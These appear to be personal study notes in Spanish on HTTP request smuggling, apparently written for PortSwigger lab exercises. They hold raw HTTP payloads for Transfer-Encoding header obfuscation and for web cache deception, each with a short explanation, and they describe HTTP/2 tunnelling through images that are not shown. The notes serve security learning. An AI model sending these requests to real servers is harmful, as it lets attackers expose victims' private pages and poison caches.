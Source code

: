 ## **Smuggling ocultando el header TE**
**Request**
```http
POST / HTTP/1.1
Host: domain.com
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: invalid

38
POST /error HTTP/1.1
Content-Length: 30 

testing=test 
0

```

**Explicacion**
- Se busca lograr una inconsistencia, a veces el **back-end** al ver que hay 2 encabezados igual con valores distintos, decide ignorar los 2 e interpretar por **`Content-Length`**
-- -
## **HTTP request smuggling to perform web cache deception**
**Request1:**
```http
POST / HTTP/1.1
Host: domain.com
Transfer-Encoding: chunked
Content-Length: 38

0

GET /my-account HTTP/1.1
Test: a
```

**Request2:**
```http
GET /resources/js/tracking.js HTTP/2
Host: 0a740013030f53638047214c0098007f.web-security-academy.net
```

**Explicacion:**
- Las cookies de sesión de la víctima se aplican al `GET /my-account` smuggleado, el back-end responde con la página privada, el front-end asocia esa respuesta a la URL `/resources/js/tracking.js` y la cachea, permitiendo que el atacante luego acceda a esa URL y obtenga el contenido sensible desde la caché.
--- 
## HTTP/2 request tunnelling
![[Pasted image 20250822181550.png]]
*Aclaración:* 
- La inyeccion de este tipo de datos a veces genera que el **Front-end** revele mas data de la que deberia revelar.
![[Pasted image 20250822181959.png]]
*Aclaración:* 
- Con las cabeceras internas filtradas gracias a la primer imagen, logramos agregarlas a la nueva request embebida la cual se inyecta en la parte del nombre del header.
- Tambien vale la pena cambiar los valores de esos headers para buscar respuestas distintas por parte del servidor.
-- -